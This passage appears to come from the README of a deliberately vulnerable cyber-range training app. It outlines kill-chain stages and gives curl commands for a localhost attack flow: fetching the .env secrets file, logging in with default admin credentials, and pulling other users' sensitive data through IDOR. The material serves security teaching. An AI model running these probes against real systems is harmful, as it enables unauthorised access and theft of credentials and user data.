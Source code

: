 4. **Exploitation**
   - Execute IDOR attacks to access admin data
   - Bypass authentication
   - Extract sensitive information

5. **Installation**
   - Establish persistent access
   - Create backdoor accounts
   - Modify application behavior

6. **Command & Control**
   - Maintain access through compromised accounts
   - Use SSRF for internal network access

7. **Actions on Objectives**
   - Extract all user data
   - Dump database contents
   - Access internal systems

### Step-by-Step Attack Flow

```bash
# 1. Reconnaissance
curl http://localhost:3000/robots.txt
curl http://localhost:3000/sitemap.xml
curl http://localhost:3000/.env

# 2. Information Gathering
curl http://localhost:3000/package.json

# 3. Authentication Bypass Attempt
curl -X POST http://localhost:3000/wcorp/api/login \
  -H "Content-Type: application/json" \
  -d '{"username":"admin","password":"admin123"}'

# 4. IDOR Exploitation
curl -H "Authorization: Bearer <token>" \
  http://localhost:3000/wcorp/api/user/profile/1

# 5. Data Exfiltration
curl -H "Authorization: Bearer <token>" \
  http://localhost:3000/wcorp/api/user/sensitive/1
```

## 🛠️ Development

### Project Structure

```
cyberrange/
├── backend/                  # Node.js API server
│   ├── server.js            # Main server file
│   ├── config/              # Configuration files
│   ├── middleware/          # Express middleware
│   └── routes/              # API routes
├── frontend/                # React application
│   ├── src/
│   │   ├── components/      # React components
│   │   ├── pages/           # Page components
│   │   └── contexts/        # React contexts
│   ├── public/
│   │   └── index-landing.html  # Landing page
│   └── build/               # Production build (generated)
├── database/
│   └── init.sql             # Database initialization
```